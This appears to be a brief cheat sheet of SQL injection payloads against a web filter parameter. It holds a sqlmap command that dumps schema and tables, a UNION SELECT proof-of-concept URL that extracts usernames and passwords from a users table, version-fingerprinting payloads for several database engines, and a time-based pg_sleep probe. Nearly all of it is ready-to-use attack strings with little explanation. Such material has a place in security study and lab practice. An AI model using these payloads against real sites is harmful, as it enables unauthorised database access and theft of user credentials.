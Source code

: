 <h1>SQL Injection</h1>

<h2>Reflected SQL Injection:</h2>
<code>sqlmap --url https://$domain/filter?category=Lifestyle --dump --schema --tables --columns</code>

<p>Database: public</p>
<p>Table: users</p>

<h4>POC</h4>
<code>https://$domain/filter?category=Lifestyle'+UNION+SELECT+username,+password+FROM+users--</code>

<h5>Version</h5>
<p>First detect numbers of columns</p>
<p><code>' UNION SELECT NULL,@@version</code></p>
<p><code>' UNION SELECT NULL,NULL,* FROM v$version</code></p>
<p><code>' UNION SELECT banner FROM v$version</code></p>
<p><code>' UNION SELECT version FROM v$instance</code></p>
<p><code>' UNION SELECT version()</code></p>

<p>';SELECT PG_SLEEP(5)--</p>
